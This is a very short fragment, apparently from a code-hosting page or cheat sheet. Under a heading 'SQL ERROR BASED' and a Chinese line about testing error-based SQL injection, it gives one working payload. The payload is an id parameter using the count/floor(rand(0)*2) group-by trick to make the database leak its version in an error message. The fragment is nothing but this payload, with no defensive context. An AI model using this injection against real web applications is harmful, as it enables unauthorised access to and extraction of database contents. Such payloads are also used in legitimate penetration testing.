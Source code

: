 ##SQL ERROR BASED
测试SQL语句报错注入
```
id=1 and (select 1 from(select count(*),concat(concat(concat(0x7b,version()),0x7d),floor(rand(0)*2))x from INFORMATION_SCHEMA.TABLES group by x)a)
```
